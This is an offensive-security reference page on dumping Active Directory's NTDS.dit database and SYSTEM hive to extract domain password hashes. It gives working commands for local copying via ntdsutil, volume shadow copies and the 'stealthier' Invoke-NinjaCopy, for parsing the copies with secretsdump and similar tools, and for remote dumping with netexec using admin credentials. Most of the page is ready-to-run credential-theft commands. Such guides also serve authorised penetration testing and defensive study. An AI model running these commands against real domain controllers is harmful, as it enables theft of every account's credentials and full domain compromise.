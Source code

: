 NTDS (Windows NT Directory Services) is the directory services used by Microsoft Windows NT to locate, manage, and organize network resources. The **NTDS.dit** file is a database that stores the Active Directory data (including users, groups, security descriptors and password hashes). This file is stored on the domain controllers.

## I. Local dumping
### 1. Exfiltration
Since the `NTDS.dit` is constantly used by AD processes such as the Kerberos KDC, it can't be copied like any other file.

The `SYSTEM` registry hive contains enough info to decrypt the `NTDS.dit` data. The hive file (`\system32\config\system`) can either be exfiltrated the same way the `NTDS.dit` file is, or it can be exported with
```bash
reg save HKLM\SYSTEM 'C:\Windows\Temp\system.save'
```
#### NTDSUtil
NTDSUtil.exe is a diagnostic tool available as part of Active Directory. It has the ability to save a snapshot of the Active Directory data. Running the following command will copy the NTDS.dit database and the SYSTEM and SECURITY hives to `C:\Windows\Temp`
```bash
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\Temp\NTDS" quit quit
```
#### VSSAdmin
VSS (Volume Shadow Copy) is a Microsoft Windows technology, implemented as a service, that allows the creation of backup copies of files or volumes, even when they are in use.
```bash
vssadmin create shadow /for=C:
```
Once the VSS is created for the target drive, it is then possible to copy the target files from it.
```bash
copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\ntds.dit.save
copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\system.save
```
Once the required files are exfiltrated, the shadow copy can be removed
```bash
vssadmin delete shadows /shadow=$ShadowCopyId
```
#### NTFS structure parsing
[Invoke-NinjaCopy](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-NinjaCopy.ps1) is a PowerShell script part of the PowerSploit suite able to "copy files off an NTFS volume by opening a read handle to the entire volume (such as c:) and parsing the NTFS structures. This technique is stealthier than the others.
```bash
Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\ntds.dit.save"
```
### 2. Parsing
Once the required files are exfiltrated, they can be parsed by tools like secretsdump (Python, part of Impacket) or [gosecretsdump](https://github.com/C-Sto/gosecretsdump) (Go, faster for big files).
```bash
secretsdump -ntds ntds.dit.save -system system.save LOCAL
gosecretsdump -ntds ntds.dit.save -system system.save
```
#### NTDS Directory parsing and extraction
With the required files, it is possible to extract more information than just secrets. The NTDS file is responsible for storing the entire directory, with users, groups, OUs, trusted domains etc... This data can be retrieved by parsing the NTDS with tools like [ntdsdotsqlite](https://github.com/almandin/ntdsdotsqlite)
```bash
ntdsdotsqlite ntds.dit -o ntds.sqlite
ntdsdotsqlite ntds.dit -o ntds.sqlite --system SYSTEM.hive
```
## II. Remote dumping
### 1. netexec
!!! note
    !!! warning 
        Requires Domain Admin or Local Admin Priviledges on target Domain Controller
    ```bash
    2 methods are available:   
    (default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and     combined with additional drsuapi calls to convert the resultant linked-lists into readable format  
			    vss - Uses the Volume Shadow copy Service  
    ```
```bash
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds --users --enabled
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' --ntds vss
```
There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py
```bash
nxc smb 192.168.1.100 -u UserName -p 'PASSWORDHERE' -M ntdsutil
```